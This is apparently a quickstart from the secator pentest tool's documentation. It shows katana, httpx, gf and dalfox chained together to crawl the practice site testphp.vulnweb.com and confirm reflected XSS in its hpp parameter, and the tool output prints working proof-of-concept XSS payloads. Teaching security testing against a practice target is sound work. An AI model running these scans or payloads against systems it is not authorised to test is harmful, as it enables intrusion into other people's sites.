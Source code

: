 ```yaml
---
description: or how you can hack faster than ever before...
---
```


# 5 minutes secator session

This quickstart will be focused on using `secator` to find vulnerabilities on the website [http://testphp.vulnweb.com](http://testphp.vulnweb.com).

We will start by using simple `secator` tasks, and then show how to use workflows to considerably speed up the session.

***

## Using tasks

<details>

<summary>Step 1: Run <code>katana</code> on the root URL</summary>

We'll start by using a crawler to find some URLs that could be interesting to exploit for vulnerabiliites. We most often use `katana`, a tool by ProjectDiscovery.

We'll save our results to a `.txt` file:

<pre class="language-bash"><code class="lang-bash"><strong>secator x katana http://testphp.vulnweb.com -o txt
</strong>                         __            
   ________  _________ _/ /_____  _____
  / ___/ _ \/ ___/ __ `/ __/ __ \/ ___/
 (__  /  __/ /__/ /_/ / /_/ /_/ / /    
/____/\___/\___/\__,_/\__/\____/_/     v0.0.1

                    freelabz.com

[13:34:53] katana -silent -jc -js-crawl -known-files all -u http://testphp.vulnweb.com -json -concurrency 50                                                                                                                                _base.py:614
🔗 http://testphp.vulnweb.com [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu, DreamWeaver]
🔗 http://testphp.vulnweb.com/high [404] [Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/index.php
🔗 http://testphp.vulnweb.com/style.css [200] [Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/privacy.php [404] [PHP:5.6.40, Ubuntu, Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/AJAX/index.php [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/categories.php [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu, DreamWeaver]
🔗 http://testphp.vulnweb.com/cart.php [200] [PHP:5.6.40, Ubuntu, DreamWeaver, Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/artists.php [200] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/ [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/hpp/ [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/disclaimer.php [200] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/login.php [200] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/Templates/main_dynamic_template.dwt.php [200] [Ubuntu, Nginx:1.19.0, PHP:5.6.40]
🔗 http://testphp.vulnweb.com/guestbook.php [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu, DreamWeaver]
🔗 http://testphp.vulnweb.com/userinfo.php
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/color-printer/3/ [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/comment.php?aid=3 [200] [Ubuntu, Nginx:1.19.0, PHP:5.6.40]
🔗 http://testphp.vulnweb.com/search.php?test=query [200] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/network-attached-storage-dlink/1/ [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/web-camera-a4tech/2/ [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/Templates/high
🔗 http://testphp.vulnweb.com/comment.php?aid=2
🔗 http://testphp.vulnweb.com/artists.php?artist=1 [200] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/hpp/?pp=12 [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/signup.php [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu, DreamWeaver]
🔗 http://testphp.vulnweb.com/comment.php?aid=1
🔗 http://testphp.vulnweb.com/AJAX/showxml.php [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/AJAX/styles.css [200] [Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/artists.php?artist=3 [200] [PHP:5.6.40, Ubuntu, DreamWeaver, Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=3 [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu, DreamWeaver]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=2 [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu, DreamWeaver]
🔗 http://testphp.vulnweb.com/showimage.php?file= [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/artists.php?artist=2 [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu, DreamWeaver]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=4
🔗 http://testphp.vulnweb.com/listproducts.php?cat=1 [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu, DreamWeaver]
🗄 Saved TXT reports to 
   • /home/vagrant/.secator/reports/default/tasks/task_katana_target_2023_07_04-01_33_13_152782_PM.txt
   • /home/vagrant/.secator/reports/default/tasks/task_katana_url_2023_07_04-01_33_13_152782_PM.txt
</code></pre>

`katana` found some pretty interesting results, including some PHP files that could potentially be vulnerable.

</details>

<details>

<summary>Step 2: Run <code>httpx</code> on found URLs to alive URLs</summary>

Crawlers usually find URLs from HTML response bodies, which means we have no ideas if those URLs will actually respond to HTTP requests or not.

In order to filter only the URLs that will give a valid HTTP status code, we can use `httpx` on the previous results (txt file).\
\
We'll add some rate limiting (`-rl`) in order to respect the server and not DDoS it for no reason.&#x20;

We want to keep only some HTTP codes (`-mc`) for instance `200`, `301`, and `500` in case we have there are errors we can take advantage of:&#x20;

```bash
secator x httpx /home/vagrant/.secator/reports/default/tasks/task_katana_target_2023_07_04-01_33_13_152782_PM.txt -rl 10 -mc 200,301,500

                         __            
   ________  _________ _/ /_____  _____
  / ___/ _ \/ ___/ __ `/ __/ __ \/ ___/
 (__  /  __/ /__/ /_/ / /_/ /_/ / /    
/____/\___/\___/\__,_/\__/\____/_/     v0.0.1

                    freelabz.com

[13:19:35] httpx -silent -td -asn -cdn -l /tmp/httpx_2023_07_04-01_19_35_686343_PM.txt -json -threads 50 -match-code 200,301,500                                                                                                            _base.py:614
🔗 http://testphp.vulnweb.com/showimage.php?file [200] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [image/jpeg] [196]
🔗 http://testphp.vulnweb.com/hpp [200] [HTTP Parameter Pollution Example] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [203]
🔗 http://testphp.vulnweb.com/cart.php [200] [you cart] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [4903]
🔗 http://testphp.vulnweb.com/categories.php [200] [picture categories] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [6115]
🔗 http://testphp.vulnweb.com/artists.php?artist=3 [200] [artists] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [6193]
🔗 http://testphp.vulnweb.com/comment.php?aid=3 [200] [comment on artist] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [1252]
🔗 http://testphp.vulnweb.com/comment.php?aid=2 [200] [comment on artist] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [1252]
🔗 http://testphp.vulnweb.com/AJAX/showxml.php [200] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [11]
🔗 http://testphp.vulnweb.com/style.css [200] [nginx/1.19.0] [Nginx:1.19.0] [text/css] [5482]
🔗 http://testphp.vulnweb.com/artists.php?artist=1 [200] [artists] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [6251]
🔗 http://testphp.vulnweb.com/Templates/main_dynamic_template.dwt.php [200] [Document titleg] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [4697]
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/color-printer/3 [200] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [313]
🔗 http://testphp.vulnweb.com/AJAX/styles.css [200] [nginx/1.19.0] [Nginx:1.19.0] [text/css] [562]
🔗 http://testphp.vulnweb.com/hpp/?pp=12 [200] [HTTP Parameter Pollution Example] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [383]
🔗 http://testphp.vulnweb.com/login.php [200] [login page] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [5523]
🔗 http://testphp.vulnweb.com/guestbook.php [200] [guestbook] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [5390]
🔗 http://testphp.vulnweb.com/signup.php [200] [signup] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [6033]
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/network-attached-storage-dlink/1 [200] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [319]
🔗 http://testphp.vulnweb.com/search.php?test=query [200] [search] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [4732]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=3 [200] [pictures] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [4699]
🔗 http://testphp.vulnweb.com/AJAX/index.php [200] [ajax test] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [4236]
🔗 http://testphp.vulnweb.com/disclaimer.php [200] [disclaimer] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [5524]
🔗 http://testphp.vulnweb.com/artists.php?artist=2 [200] [artists] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [6193]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=4 [200] [pictures] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [4699]
🔗 http://testphp.vulnweb.com/artists.php [200] [artists] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [5328]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=2 [200] [pictures] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [5311]
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop [200] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [975]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=1 [200] [pictures] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [7880]
🔗 http://testphp.vulnweb.com/comment.php?aid=1 [200] [comment on artist] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [1252]
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/web-camera-a4tech/2 [200] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [279]
🔗 http://testphp.vulnweb.com [200] [Home of Acunetix Art] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [4958]
🔗 http://testphp.vulnweb.com/index.php [200] [Home of Acunetix Art] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [4958]
🗄 Saved TXT reports to 
   • /home/vagrant/.secator/reports/default/tasks/task_httpx_target_2023_07_04-01_34_22_081275_PM.txt
   • /home/vagrant/.secator/reports/default/tasks/task_httpx_url_2023_07_04-01_34_22_081275_PM.txt
```

</details>

<details>

<summary>Step 3: Run <code>gf</code> on found URLs</summary>

`gf` allows to run patterns on URLs, we can use it to quickly detect potential interesting URLs including XSS, LFIs, SSRFs, RCEs, Interesting params, or Insecure Direct Object references.\
Let's hunt for potential XSS:

<pre><code>secator x gf --pattern xss /home/vagrant/.secator/reports/default/tasks/task_httpx_target_2023_07_04-01_34_22_081275_PM.tx
<strong>🏷️ [xss] http://testphp.vulnweb.com/comment.php?aid=1 []
</strong>🏷️ [xss] http://testphp.vulnweb.com/comment.php?aid=2 []
🏷️ [xss] http://testphp.vulnweb.com/comment.php?aid=3 []
🏷️ [xss] http://testphp.vulnweb.com/hpp/?pp=12 []
</code></pre>

Mmmh, it seems like we might have some interesting XSS targets here. Let's use `dalfox` to find out !

</details>

<details>

<summary>Step 4: Run <code>dalfox</code> on potential XSS links</summary>

`dalfox` is a pretty thorough XSS checker, let's run it on the targets we've identified:

```
secator x dalfox http://testphp.vulnweb.com/hpp/?pp=12

                         __            
   ________  _________ _/ /_____  _____
  / ___/ _ \/ ___/ __ `/ __/ __ \/ ___/
 (__  /  __/ /__/ /_/ / /_/ /_/ / /    
/____/\___/\___/\__,_/\__/\____/_/     v0.0.1

                    freelabz.com

[13:41:28] dalfox --silence url 'http://testphp.vulnweb.com/hpp/?pp=12' --format json --worker 50                                                                                                                                           _base.py:614
🚨 [Verified XSS] [high] http://testphp.vulnweb.com/hpp/ [CWE-83] [inject_type:inATTR-double(3)-URL, poc_type:plain, method:GET, 
data:http://testphp.vulnweb.com/hpp/?pp=12%22id%3Dx+tabindex%3D1+style%3D%22display%3Ablock%3Btransition%3Aoutline+1s%3B%22+ontransitionend%3Dalert.apply%28null%2C1%29+class%3Ddalfox+, param:pp, payload:"id=x tabindex=1 
style="display:block;transition:outline 1s;" ontransitionend=alert.apply(null,1) class=dalfox , evidence:4 line:  ms.php?p=valid&pp=12"id=x tabindex=1 style="display:block;transition:outline 1s;, message_id:1103, message_str:Triggered XSS Payload 
(found DOM Object): pp="id=x tabindex=1 style="display:block;transition:outline 1s;" ontransitionend=alert.apply(null,1) class=dalfox ]
```

**We have found a Verified XSS !**

We could verify this XSS in our browser to validate it, but `dalfox` already gave us evidence that it works...

</details>

***

## Using a task pipe

The previous set of tasks is an example of how we usually find vulnerabilities in HTTP URLs.

In that sense, the pentester work can become really repetitive and boring and a set of tasks like this one can be automated.

Here is a `secator` pipe that can automate the previous 4 steps. Here we use the `-raw` flag to directly input URLs to the next task instead of saving results to a text file and re-using that text file in later steps:

```
secator x katana http://testphp.vulnweb.com -raw | secator x httpx -raw | secator x gf --pattern xss -fmt '{match}' | secator x dalfox
```

<details>

<summary>Command output</summary>

```
[13:50:29] katana -silent -jc -js-crawl -known-files all -u http://testphp.vulnweb.com -json -concurrency 50                                                                                                                                _base.py:614
[13:50:43] httpx -silent -td -asn -cdn -l /tmp/httpx_2023_07_04-01_50_43_044323_PM.txt -json -threads 50                                                                                                                                    _base.py:614
[13:50:49] cat /tmp/gf_2023_07_04-01_50_49_787397_PM.txt | gf xss                                                                                                                                                                           _base.py:614
[13:50:49] dalfox --silence file /tmp/dalfox_2023_07_04-01_50_49_855768_PM.txt --format json --worker 50                                                                                                                                    _base.py:614
🚨 [Verified XSS] [high] http://testphp.vulnweb.com/hpp/ [CWE-83] [inject_type:inATTR-double(3)-URL, poc_type:plain, method:GET, 
data:http://testphp.vulnweb.com/hpp/?pp=12%22%26%2339%3B%3E%3Caudio+controls+ondurationchange%3Dprompt%281%29+id%3Ddalfox%3E%3Csource+src%3D1.mp3+type%3Daudio%2Fmpeg%3E%3C%2Faudio%3E, param:pp, payload:"&#39;><audio controls 
ondurationchange=prompt(1) id=dalfox><source src=1.mp3 type=audio/mpeg></audio>, evidence:4 line:  ms.php?p=valid&pp=12"&#39;><audio controls ondurationchange=prompt(1) id=dalfox>, message_id:1862, message_str:Triggered XSS Payload (found DOM 
Object): pp="&#39;><audio controls ondurationchange=prompt(1) id=dalfox><source src=1.mp3 type=audio/mpeg></audio>]
```

</details>

This is already a good time improvement over the previous lengthy set of tasks.

***

## Using a workflow

Task pipes are good to quickly find things, but workflows are much better to repeat the same set of tasks over separate sets of targets, with the same input options for all tasks, while filtering final results and reacting to live results, etc...

Here is a `secator` workflow corresponding to the previous set of tasks:

{% code title="xss_finder.yaml" %}
```yaml
type: workflow
name: xss_finder
description: XSS Finder
tasks:
  katana:
    description: Crawling root URL
  httpx:
    description: Finding alive URLs
    targets_:
      - type: url
        field: url
        condition: item.status_code == 0
  gf:
    description: Identifying XSS
    targets_:
      - url.url
  dalfox:
    description: Verifying XSS
    targets_:
      - type: tag
        field: match
        condition: item.name == 'xss'
```
{% endcode %}

And here is the workflow run using `secator`:

```
secator w xss_finder.yaml http://testphp.vulnweb.com
```

<details>

<summary>Command output</summary>

```
                         __            
   ________  _________ _/ /_____  _____
  / ___/ _ \/ ___/ __ `/ __/ __ \/ ___/
 (__  /  __/ /__/ /_/ / /_/ /_/ / /    
/____/\___/\___/\__,_/\__/\____/_/     v0.0.1

                    freelabz.com

╭────── Workflow xss_finder ──────╮
│ 📜 Description: XSS Finder      │
│ 👷 Workspace: default           │
│ 🍐 Targets:                     │
│    • http://testphp.vulnweb.com │
│ 📌 Options:                     │
│    • threads: 50                │
│    • headless: False            │
│    • system_chrome: False       │
│    • follow_redirect: False     │
│    • debug_resp: False          │
│ ✉  Exporters:                   │
│    • json                       │
│    • csv                        │
╰─────────────────────────────────╯
[14:03:31] 🎉 Workflow xss_finder starting...                                                                                                                                                                                               _base.py:614

🔧 Crawling root URL ...
[14:03:32] katana -silent -jc -js-crawl -known-files all -u http://testphp.vulnweb.com -json -concurrency 50                                                                                                                                _base.py:614
🔗 http://testphp.vulnweb.com [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40, DreamWeaver]
🔗 http://testphp.vulnweb.com/high [404] [Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/ [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40]
🔗 http://testphp.vulnweb.com/index.php
🔗 http://testphp.vulnweb.com/style.css [200] [Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/guestbook.php [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40, DreamWeaver]
🔗 http://testphp.vulnweb.com/Templates/main_dynamic_template.dwt.php [200] [PHP:5.6.40, Nginx:1.19.0, Ubuntu]
🔗 http://testphp.vulnweb.com/AJAX/index.php [200] [PHP:5.6.40, Nginx:1.19.0, Ubuntu]
🔗 http://testphp.vulnweb.com/login.php [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40, DreamWeaver]
🔗 http://testphp.vulnweb.com/cart.php [200] [PHP:5.6.40, Nginx:1.19.0, Ubuntu, DreamWeaver]
🔗 http://testphp.vulnweb.com/privacy.php [404] [Nginx:1.19.0, Ubuntu, PHP:5.6.40]
🔗 http://testphp.vulnweb.com/hpp/ [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40]
🔗 http://testphp.vulnweb.com/categories.php [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40, DreamWeaver]
🔗 http://testphp.vulnweb.com/artists.php [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40, DreamWeaver]
🔗 http://testphp.vulnweb.com/disclaimer.php [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40, DreamWeaver]
🔗 http://testphp.vulnweb.com/userinfo.php
🔗 http://testphp.vulnweb.com/listproducts.php?cat=3
🔗 http://testphp.vulnweb.com/comment.php?aid=1 [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=4 [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40, DreamWeaver]
🔗 http://testphp.vulnweb.com/comment.php?aid=3
🔗 http://testphp.vulnweb.com/artists.php?artist=2 [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40, DreamWeaver]
🔗 http://testphp.vulnweb.com/comment.php?aid=2
🔗 http://testphp.vulnweb.com/signup.php [200] [PHP:5.6.40, DreamWeaver, Nginx:1.19.0, Ubuntu]
🔗 http://testphp.vulnweb.com/artists.php?artist=3 [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40, DreamWeaver]
🔗 http://testphp.vulnweb.com/artists.php?artist=1 [200] [Ubuntu, PHP:5.6.40, DreamWeaver, Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=1 [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40, DreamWeaver]
🔗 http://testphp.vulnweb.com/AJAX/showxml.php [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40]
🔗 http://testphp.vulnweb.com/showimage.php?file= [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40]
🔗 http://testphp.vulnweb.com/hpp/?pp=12 [200] [Ubuntu, PHP:5.6.40, Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/AJAX/styles.css [200] [Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/Templates/high
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/network-attached-storage-dlink/1/ [200] [PHP:5.6.40, Nginx:1.19.0, Ubuntu]
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/web-camera-a4tech/2/ [200] [PHP:5.6.40, Nginx:1.19.0, Ubuntu]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=2 [200] [PHP:5.6.40, Nginx:1.19.0, Ubuntu, DreamWeaver]
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/color-printer/3/ [200] [PHP:5.6.40, Nginx:1.19.0, Ubuntu]
🔗 http://testphp.vulnweb.com/search.php?test=query [200] [Nginx:1.19.0, Ubuntu, DreamWeaver, PHP:5.6.40]

🔧 Finding alive URLs ...
[14:03:45] httpx -silent -td -asn -cdn -l /tmp/httpx_2023_07_04-02_03_45_807367_PM.txt -json -threads 50                                                                                                                                    _base.py:614
🔗 http://testphp.vulnweb.com/Templates/high [404] [404 Not Found] [nginx/1.19.0] [Nginx:1.19.0] [text/html] [153]
🔗 http://testphp.vulnweb.com/index.php [200] [Home of Acunetix Art] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [4958]
🔗 http://testphp.vulnweb.com/comment.php?aid=2 [200] [comment on artist] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [1252]
🔗 http://testphp.vulnweb.com/userinfo.php [302] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [14]
🔗 http://testphp.vulnweb.com/comment.php?aid=3 [200] [comment on artist] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [1252]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=3 [200] [pictures] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [4699]

🔧 Identifying XSS ...
[14:03:52] cat /tmp/gf_2023_07_04-02_03_52_398624_PM.txt | gf xss                                                                                                                                                                           _base.py:614
🏷️ [xss] http://testphp.vulnweb.com/comment.php?aid=1 []
🏷️ [xss] http://testphp.vulnweb.com/comment.php?aid=2 []
🏷️ [xss] http://testphp.vulnweb.com/comment.php?aid=3 []
🏷️ [xss] http://testphp.vulnweb.com/hpp/?pp=12 []

🔧 Verifying XSS ...
[14:03:54] dalfox --silence file /tmp/dalfox_2023_07_04-02_03_52_411553_PM.txt --format json --worker 50                                                                                                                                    _base.py:614
🚨 [Verified XSS] [high] http://testphp.vulnweb.com/hpp/ [CWE-83] [inject_type:inATTR-double(3)-URL, poc_type:plain, method:GET, 
data:http://testphp.vulnweb.com/hpp/?pp=12%22onmouseenter%3Dprompt.call%28null%2C1%29+class%3Ddalfox+, param:pp, payload:"onmouseenter=prompt.call(null,1) class=dalfox , evidence:4 line:  ms.php?p=valid&pp=12"onmouseenter=prompt.call(null,1) 
class=dalfox ">link2</a><b, message_id:1540, message_str:Triggered XSS Payload (found DOM Object): pp="onmouseenter=prompt.call(null,1) class=dalfox ]


[14:04:20] 🎉 Workflow xss_finder succeeded in 48 seconds.                                                                                                                                                                                  _base.py:614
🗄 Saved JSON report to /home/vagrant/.secator/reports/default/workflows/workflow_xss_finder_2023_07_04-02_04_20_160856_PM.json
🗄 Saved CSV reports to 
   • /home/vagrant/.secator/reports/default/workflows/workflow_xss_finder_target_2023_07_04-02_04_20_160856_PM.csv
   • /home/vagrant/.secator/reports/default/workflows/workflow_xss_finder_url_2023_07_04-02_04_20_160856_PM.csv
   • /home/vagrant/.secator/reports/default/workflows/workflow_xss_finder_tag_2023_07_04-02_04_20_160856_PM.csv
   • /home/vagrant/.secator/reports/default/workflows/workflow_xss_finder_vulnerability_2023_07_04-02_04_20_160856_PM.csv

```

</details>

***
